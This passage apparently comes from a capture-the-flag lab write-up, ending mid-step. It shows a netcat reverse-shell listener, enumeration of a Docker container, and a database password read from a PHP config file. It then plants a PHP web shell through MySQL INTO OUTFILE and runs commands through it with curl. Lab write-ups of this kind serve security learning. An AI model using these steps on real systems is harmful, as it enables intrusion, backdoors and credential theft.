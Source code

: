 Started netcat listener:

```bash
nc -lvnp 4444
```

Confirmed access via:

```bash
whoami
id
hostname
```

---

### 4. Post-Exploitation in Container

Enumerated container environment:

```bash
hostname
docker -v
cat /etc/issue
cat /proc/1/cgroup
```

Searched for credentials:

```bash
cat /var/www/html/db_connect.php
```

Output:

```php
$servername = '192.168.100.135';
$username = 'admin';
$password = '!123SecureAdminInDashboard321';
$dbname = 'dashboard';
```

---

### 5. Host Pivot 

Tested container breakout by placing PHP backdoor with MySQL:

```sql
SELECT "<?php system($_GET['cmd']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```

Then accessed:

```bash
curl -H 'Host: www.holo.live' "http://192.168.198.135/shell.php?cmd=whoami"
```

Opened shell again:
